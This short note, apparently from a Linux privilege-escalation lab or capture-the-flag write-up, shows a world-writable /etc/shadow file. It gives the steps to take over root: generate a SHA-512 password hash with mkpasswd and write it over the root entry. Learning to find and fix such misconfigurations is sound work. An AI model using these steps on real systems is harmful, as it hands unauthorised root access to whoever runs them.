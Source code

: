 /etc/shadow can be written by regular user
```bash
ls -l /etc/shadow
-rw-r--rw- 1 root shadow 837 Aug 25  2019 /etc/shadow
```
can make your own password with
```bash
mkpasswd -m sha-512 newpasswordhere

```
then edit the /etc/shadow root user with your new password